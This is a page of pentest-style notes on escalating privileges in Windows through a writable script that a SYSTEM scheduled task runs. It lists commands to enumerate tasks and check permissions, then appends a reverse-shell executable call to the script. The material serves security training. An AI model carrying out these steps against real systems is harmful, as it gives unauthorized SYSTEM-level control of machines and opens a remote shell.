 # Scheduled Tasks

Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.

Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.

List all scheduled tasks your user can see:

```
schtasks /query /fo LIST /v
```

In PowerShell:

```
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

in this example we find a powershell script that will clean up our old dev logs every minute.

![](<../../../.gitbook/assets/image (153).png>)

This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:

```
accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

![](<../../../.gitbook/assets/image (152).png>)

It appears we have the ability to write to this file

Backup the script:

```
copy C:\DevTools\CleanUp.ps1 C:\Temp\
```

start a listener on your side, create a reverse shell and Use echo to append a call to our reverse shell executable to the end of the script:

```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

Wait for the scheduled task to run (it should run every minute) to complete the exploit.

![](<../../../.gitbook/assets/image (149).png>)
